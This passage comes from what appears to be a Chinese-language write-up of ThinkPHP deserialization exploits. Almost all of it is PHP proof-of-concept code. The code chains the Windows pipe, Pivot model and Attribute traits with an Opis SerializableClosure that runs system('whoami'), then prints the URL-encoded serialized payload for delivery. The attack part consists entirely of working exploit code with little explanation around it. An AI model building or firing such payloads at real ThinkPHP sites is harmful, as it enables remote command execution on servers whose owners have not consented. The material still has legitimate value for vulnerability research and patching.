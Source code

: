 ```php
        use model\concern\Attribute;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
    // echo serialize($payload);
}
```

#### POC II
这里须在`Model`中改`$data`和`$withAttr`，POC I中在`Attribute`或`Model`中都行
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
    }
    trait Attribute{	
    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
        private $data = ['test' => ""];
        private $withAttr = [];			
        function __construct($closure){
            $this->withAttr = ['test' => $closure ];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    require __DIR__ . '/vendor/autoload.php';
    use Opis\Closure\SerializableClosure;
    $closure = new SerializableClosure(function(){system("whoami");});
    $string = new think\model\Pivot($closure);
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
```